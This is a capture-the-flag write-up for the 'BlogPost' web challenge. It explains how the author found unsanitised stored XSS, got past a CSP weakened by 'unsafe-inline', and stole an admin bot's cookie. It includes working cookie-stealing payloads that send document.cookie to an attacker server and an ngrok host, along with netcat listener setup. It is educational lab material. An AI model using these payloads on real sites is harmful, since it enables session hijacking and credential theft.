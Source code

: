 # Web BlogPost

![Blog Post Challenge](img/Challenge.PNG)

## Summary

Blogpost is a easy web challenge that one of the challenges that took most of my time in the CTF. Finding the foothold was an interesting process but this challenge has reminded me not to create a tunnel vision when it comes to hacking and ensuring that I check all files to have a good understanding what the challenge is. (I did not realize about the bot.js and basically had troubles stealing the cookie itself)

## Table of Contents
1. [Setting up environment](https://github.com/notsuspiciousindividual/Stack_The_Flag_CTF_22/tree/main/web_blogpost_1#setting-up-the-environment)
2. [Enumeration](https://github.com/notsuspiciousindividual/Stack_The_Flag_CTF_22/tree/main/web_blogpost_1#setting-up-the-environment)
3. [Foothold](https://github.com/notsuspiciousindividual/Stack_The_Flag_CTF_22/tree/main/web_blogpost_1#setting-up-the-environment)
4. [Exploitation](https://github.com/notsuspiciousindividual/Stack_The_Flag_CTF_22/tree/main/web_blogpost_1#setting-up-the-environment)
5. [CSP](https://github.com/notsuspiciousindividual/Stack_The_Flag_CTF_22/tree/main/web_blogpost_1#what-is-csp-and-why-is-it-a-pain)
6. [Using NGROK](https://github.com/notsuspiciousindividual/Stack_The_Flag_CTF_22/tree/main/web_blogpost_1#using-ngrok)

## Setting up the environment

![When unzipped, there should be the docker environments to run](img/settingupchallenge.PNG)

The challenge developers were kind enough to create the environment for individuals to run on their local machine. To create the environment itself, you should have docker installed in your machine. Just a little google can help you (depending on your machine) but here was how I installed it; [Link](https://www.kali.org/docs/containers/installing-docker-on-kali/)

## Enumeration

Playing around with the website and looking at the sourcecode, we have a rough understand of what the website has and the general flow for normal users; 

```
Goes to Homepage
Login
	If no user in website
		make user
	Go to Blog, server takes content from blog
	make own post etc
```

Going through the sourcecodes itself, we also understand that there'll be a bot that actively crawls through the blogpost with the required cookie we have to steal in bot.js

```javascript
export const viewPosts = async () => {
    try {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();

		let token = await sign({ username: 'admin' });
		await page.setCookie({
			name: "session",
			'value': token,
			domain: "127.0.0.1",
		});
		await page.setCookie({
			name: "flag",
			'value': "REDACTED",
			domain: "127.0.0.1",
		});
		await page.goto('http://127.0.0.1:1337/blog', {
			waitUntil: 'networkidle2',
			timeout: 8000
		});
		await browser.close();
    } catch(e) {
        console.log(e);
    }
};
````

## Getting the foothold

![Form has no sanitisation](img/formsjsnosanitisation.PNG)


Looking through the sourcecode, there is no form of sanitization when it comes to posting. With that in mind, let's try it with a simple XSS. If it works, there'll be our foothole for this challenge.

```javascript
<script>console.log("test")</script>
```

![XSS FootHold](img/XSSFootHold.PNG)

![XSS Success](img/XSSSuccess.PNG)

And it does work! Now with our foothold, what can we do with it?

## Exploitation
During our enumeration, we understand that'll be a bot the crawls through the blog site itself. Hence our objective is to use XSS to steal the "cookie" of the admin which will hold our flag. I made a simple XSS payload that'll force the website to send their user cookie to my server as shown below;

- Payload
```javascript
<script>
document.write('<img src="http://127.0.0.1:8000/?'+document.cookie+'"/>');
</script> 
//Note that the ip address should be your ip address that you want to take the cookies
```
[^1]


- On Our machine (to receive the cookies)
```bash
python -m SimpleHTTPServer
```

However, we encountered the next obstacle in the challenge. The challenge is equipped with content security policy (CSP) with doesn't allow us to steal the cookie as shown below.

![CSP Shenanigans](img/CSPBlockage.PNG)

## What is CSP? ~~and why is it a pain~~

> Content Security Policy ([CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)) is an added layer of security that helps to detect and mitigate certain types of attacks, including Cross-Site Scripting ([XSS](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting)) and data injection attacks. These attacks are used for everything from data theft, to site defacement, to malware distribution. [^2]

It is a good mitigation practise but with every mitigation, there'll be ways where developers configure such mitigations wrongly. We can verify their policy (found in /src/app/index.js) using [CSP Evaluator](https://csp-evaluator.withgoogle.com/)  

![CSP Bad Configuration](img/CSPMisconfiguration.PNG)

Hence with the mindset of "hey they probably misconfigured something", we can see that they allowed 'unsafe-inline' which can be our proper foothold for this obstacle. Implementing it in CSP is effectively disabling the important part of CSP. You are allowing javascript to run in the XSS. [^3] Hence with that in mind, let us find a payload to bypass it.

```javascript
"/><script>console.log("bypass works");</script>
```
[^4]


![CSP Bypass Works](img/bypasstestWorks.PNG)

It does work, now lets steal the bot's cookie

## Using NGROK
One of the problems which I faced was getting the cookie itself. For some reason, I was only receiving my cookie rather than the bot's cookie. After thinkering around and accidentally solving Blogpost 2 (woops), I learn about [ngrok](https://ngrok.com/). The idea is being able to push localhost apps to the internet with a hostname easily. In this case, I'll be using it to receive the cookie instantly. Thanks John Hammond for the idea as well. [^5]

Setting up ngrok, which will give us our forward hostname
```
ngrok http 9000
```

![Ngork Hostname Output](img/ngrokStuff.PNG)

Setting up listening on localhost
```
nc -nlvp 9000
```
Payload for our shenanigans
```
"/><script>document.location='https://16ba-118-189-213-163.ap.ngrok.io/?c='+document.cookie;</script>
```

This will give us the cookie which is the aim of the challenge! 

![Flag Here!](img/XSSCSPBypassFlag.PNG)



[^1]:[Simple XSS Cookie Stealer](https://infinitelogins.com/2020/10/13/using-cross-site-scripting-xss-to-steal-cookies/)
[^2]:[What is CSP?](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
[^3]:[unsafe-inline is dumb](https://csper.io/blog/no-more-unsafe-inline)
[^4]:[unsafe-inline bypass](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#unsafe-inline)
[^5]:[John's Video on CSP](https://www.youtube.com/watch?v=uU_tvQPCBUo)